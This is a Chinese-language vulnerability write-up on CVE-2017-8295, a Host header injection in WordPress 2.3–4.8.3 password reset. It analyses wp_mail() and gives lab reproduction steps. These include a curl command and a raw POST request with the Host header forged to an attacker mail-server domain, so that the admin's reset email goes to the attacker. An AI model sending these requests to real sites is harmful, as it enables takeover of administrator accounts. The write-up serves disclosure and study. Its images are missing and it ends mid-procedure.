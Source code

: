 （CVE-2017-8295）WordPress 2.3-4.8.3 任意密码重置/HOST头注入漏洞
================================================================

一、漏洞简介
------------

在 WordPress 2.3-4.8.3
版本中找回密码功能未正确设置发送邮件的信息，在发送找回密码邮件的过程中直接使用
Host
地址作为邮件请求头的一部分，在一些情况下攻击者可利用该功能窃取找回密码邮件内容。

二、漏洞影响
------------

WordPress 2.3-4.8.3

三、复现过程
------------

### 漏洞分析

在 WordPress 中， wp\_mail()
函数用来发送邮件，在发送邮件的过程中如果没有设置 发件地址（From）
，则会自动使用 \'wordpress@\' + \$\_SERVER\[\'SERVER\_NAME\'\]
作为邮件的 发件地址。主流的 Web 服务器中的 SERVER\_NAME
变量来自于客户端请求中 HTTP\_HOST 头，这就意味着该发件地址是用户可控的。

wp\_mail() 函数的声明在文件 WordPress/wp-includes/pluggable.php 中：

    function wp_mail( $to, $subject, $message, $headers = '', $attachments = array() ) {
    ...//ignore
        if ( !isset( $from_email ) ) {
            // Get the site domain and get rid of www.
            $sitename = strtolower( $_SERVER['SERVER_NAME'] );
            if ( substr( $sitename, 0, 4 ) == 'www.' ) {
                $sitename = substr( $sitename, 4 );
            }
            $from_email = 'wordpress@' . $sitename;
        }
        /**
         * Filters the email address to send from.
         *
         * @since 2.2.0
         *
         * @param string $from_email Email address to send from.
         */
        $from_email = apply_filters( 'wp_mail_from', $from_email );
        /**
         * Filters the name to associate with the "from" email address.
         *
         * @since 2.3.0
         *
         * @param string $from_name Name associated with the "from" email address.
         */
        $from_name = apply_filters( 'wp_mail_from_name', $from_name );
        $phpmailer->setFrom( $from_email, $from_name );
    ...//ignore
    }

在某些情况下邮件服务器会直接将邮件的 发件地址 作为
退件地址（Return-Path），当邮件发送失败时邮件会被自动转发到
退件地址。因为 发件地址
可被篡改，因此找回密码邮件的内容可能会被发送到恶意的邮件服务器中。

### 漏洞复现

#### 安装 WordPress 程序

此处的管理员邮箱设置为不存在的邮箱地址
demo\@0-sec.org，用来模拟通过DNS攻击/DOS攻击使管理员的找回密码邮件发送失败

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-8295)WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId27.png)

#### 创建邮箱账户

演示中我们使用的是 wordpress\@0-sec.org

#### 通过在线终端，发起找回密码请求，并篡改 HTTP\_HOST 请求头

我们这里使用在线终端模拟攻击内网的 WordPress 网站。

在线终端中执行：

    curl -v 'http://0-sec.org/wp-login.php?action=lostpassword' -H 'Host: vulnspy.com' --data 'user_login=admin&redirect_to=&wp-submit=Get+New+Password'

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-8295)WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId30.png)

post数据包：

    POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
    Host: injected-attackers-mxserver.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 56

    user_login=admin&redirect_to=&wp-submit=Get+New+Password

如果此时邮件发送失败，邮件会被自动退回到
wordpress\@0-sec.org。即原本要发送管理员邮箱 demo\@0-sec.org
的邮件会被发送到 wordpress\@0-sc.org

#### 使用 wordpress\@0-sec.org 接收找回密码邮件

如果利用成功 wordpress\@v0-sec.org 会接收到密码重置邮件。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-8295)WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId32.png)

如果邮件内容没有显示找回密码链接，可以通过邮件源文件发现找回密码链接

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-8295)WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId33.png)

#### 使用找回密码链接修改密码

image
